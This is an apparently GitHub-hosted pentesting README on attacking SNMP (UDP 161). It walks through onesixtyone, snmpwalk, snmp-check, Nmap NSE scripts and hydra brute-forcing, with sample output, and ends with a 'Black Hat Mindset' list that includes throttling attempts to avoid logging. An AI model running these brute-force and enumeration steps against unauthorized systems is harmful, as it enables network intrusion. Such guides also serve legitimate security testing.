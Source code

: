 # Basic Methodology - Port 161 (UDP-SNMP)

This README explores exploiting the Simple Network Management Protocol (SNMP) service on port 161, focusing on enumerating community strings, walking the MIB tree, using enumeration tools, scanning for vulnerabilities, and brute-forcing credentials.

## Table of Contents

- Introduction
- Setup and Prerequisites
- Enumerating Community Strings with Onesixtyone
- Walking the MIB Tree with Snmpwalk
- SNMP Enumeration with Snmp-check
- SNMP Enumeration with Snmpcheck
- Nmap NSE Scripts
- Brute-Force Attacks
- Black Hat Mindset
- Resources

## Introduction

SNMP on port 161 (UDP) is used for managing network devices, often exposing sensitive information through default or weak community strings. This guide covers enumerating community strings, extracting device details via the MIB tree, using enumeration tools, scanning for vulnerabilities with Nmap, and brute-forcing community strings to gain unauthorized access.

## Setup and Prerequisites

### Environment
- Linux host with network access to the target SNMP server.
- Tools: Install `onesixtyone`, `snmpwalk`, `snmp-check`, `snmpcheck`, `nmap`, and `hydra`:
  ```bash
  apt install snmp snmp-mibs-downloader onesixtyone hydra nmap
  ```

### Required Files
- Create `community.txt` with common community strings (e.g., public, private, manager)
- Create `list_of_ips.txt` with target IP addresses
- Prepare a password file (e.g., `password-file.txt`) for brute-forcing

### Target Information
- IP Address: Identify the target IP address (e.g., `<IP address>`)

## Enumerating Community Strings with Onesixtyone

Guess SNMP community strings to gain access.

```bash
onesixtyone -c community.txt -i list_of_ips.txt
```

Example Output:
```
Scanning 1 hosts, 3 communities
192.168.1.100 [public] Software: Linux
192.168.1.100 [private] Software: Linux
```

## Walking the MIB Tree with Snmpwalk

Extract detailed device information via the MIB tree.

```bash
snmpwalk -c <community string> -v1 <IP address>
```

Example:
```bash
snmpwalk -c public -v1 192.168.1.100
```

Output includes system info, interfaces, processes, etc.:
```
SNMPv2-MIB::sysDescr.0 = STRING: Linux router 5.15.0-73-generic
SNMPv2-MIB::sysContact.0 = STRING: admin@example.com
```

## SNMP Enumeration with Snmp-check

Perform detailed enumeration of SNMP data.

```bash
snmp-check <IP address>
```

Example Output:
```
[*] System information:
Hostname: router.example.com
Description: Linux router 5.15.0-73-generic
Contact: admin@example.com
```

## SNMP Enumeration with Snmpcheck

Alternative enumeration tool for SNMP.

```bash
snmpcheck -c <community string> -t <IP address>
```

Example:
```bash
snmpcheck -c public -t 192.168.1.100
```

Output includes users, processes, and network details.

## Nmap NSE Scripts

Scan for SNMP vulnerabilities.

List available SNMP scripts:
```bash
ls -la /usr/share/nmap/scripts | grep "snmp"
```

Example usage:
```bash
# Retrieve basic SNMP information (UDP scan)
nmap -p 161 --script snmp-info <IP address> -sU

# Attempt to brute-force community strings
nmap -p 161 --script snmp-brute <IP address> -sU
```

## Brute-Force Attacks

Guess SNMP community strings.

```bash
# Using a custom password file
hydra -P password-file.txt <IP address> snmp

# Using rockyou wordlist with limited threads
hydra -P /usr/share/wordlists/rockyou.txt <IP address> snmp -t 4
```

## Black Hat Mindset

- **Guess Defaults**: Start with common community strings (public, private) to quickly access devices.
- **Extract Sensitive Data**: Use `snmpwalk` or `snmp-check` to gather system details, users, and network configurations.
- **Target Misconfigs**: Exploit devices with default or weak community strings for reconnaissance or privilege escalation.
- **Stay Silent**: Limit brute-force attempts to avoid triggering rate-limiting or logging.

## Resources

- SNMP Protocol
- Onesixtyone GitHub
- Snmpwalk Manual
- Nmap NSE Documentation
- Hydra Manual

